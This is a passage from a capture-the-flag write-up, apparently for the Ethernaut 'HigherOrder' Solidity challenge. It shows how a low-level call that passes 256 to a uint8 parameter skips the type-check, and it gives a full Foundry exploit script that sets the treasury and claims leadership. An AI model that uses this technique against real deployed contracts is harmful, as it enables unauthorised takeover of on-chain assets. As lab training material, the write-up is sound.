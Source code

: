 Both of these return some errors because the function is expecting a `uint8`. Same if we try to adjust a bit the function definition in the interface:

```javascript
interface IHigherOrder {
    function registerTreasury(uint256) external;
}
```

The `registerTreasury()` keeps type-checking the value we are passing. So what if we try without function definition with a low-level call instead?

```javascript
address(higherOrder).call(abi.encodeWithSignature("registerTreasury(uint8)", 256));
console2.log("Treasury: ", higherOrder.treasury());
// Treasury: 256
```

This works like a charm, effectively bypassing any type-check! We have set the `treasury` variable to 256 and we can claim the leadership.

## Solution

Let's see the complete solution. This level only requires a script, no need to craft any contract.

### In Foundry using `forge`:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Script, console2} from "forge-std/Script.sol";

interface IHigherOrder {
    function commander() external view returns (address);
    function treasury() external view returns (uint256);
    function registerTreasury(uint8) external;
    function claimLeadership() external;
}

contract PoC is Script {
    IHigherOrder private immutable higherOrder =
        IHigherOrder(0x2917260322a451BED3074D521B2069fA9f8175ef); // Replace with your HigherOrder instance

    function run() external {
        uint256 deployer = vm.envUint("PRIVATE_KEY");
        vm.startBroadcast(deployer);

        address(higherOrder).call(
            abi.encodeWithSignature("registerTreasury(uint8)", 256)
        );
        require(higherOrder.treasury() == 256, "Treasury should be 256");
        console2.log("Treasury: ", higherOrder.treasury());

        higherOrder.claimLeadership();
        console2.log("Commander: ", higherOrder.commander());

        vm.stopBroadcast();
    }
}
```
